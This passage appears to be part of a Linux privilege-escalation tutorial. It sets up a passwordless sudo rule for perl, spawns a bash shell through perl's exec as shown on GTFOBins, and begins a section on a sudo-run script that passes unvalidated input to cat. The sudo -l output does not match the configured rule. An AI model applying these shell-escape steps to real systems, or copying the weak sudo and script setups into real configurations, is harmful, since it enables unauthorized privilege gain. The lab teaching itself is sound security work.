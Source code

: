 Add the following configuration:

```shell
user ALL=(user:ALL) NOPASSWD: /usr/bin/perl
```

Switch to the `user`:

```shell
user@pwn:~$ su user
Password: 
```

List the sudo configuration with the option `-l` which means list:

```shell
user@pwn:/home/user$ sudo -l
Matching Defaults entries for user on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on ubuntu:
    (low : ALL) NOPASSWD: /usr/bin/perl
```

In GTFOBins, we can see how this can be abused to escalate privileges: 
![Perl Sudo](https://gtfobins.github.io/gtfobins/perl/#sudo)

Now let's execute the program as that specific user:

```shell
user@pwn:/home/user$ sudo -u user /usr/bin/perl -e 'exec "/bin/bash";'
user@pwn:~$ whoami
user:
user@pwn:~$ 
```
The command above spawns a `bash` shell as the user.

# Privilege Escalation via Abusing Intended Functionality

Edit the sudo configuration file:

```shell
sudo visudo
```

Create the following scripts, the problem with this script is that it doesn't verify user input:

```shell
user@pwn:~$ cat /home/user/input.sh
#!/bin/bash
 

cat $1
echo "Welcome ${x}!"
```

Add the `rbash` sudo configuration:
 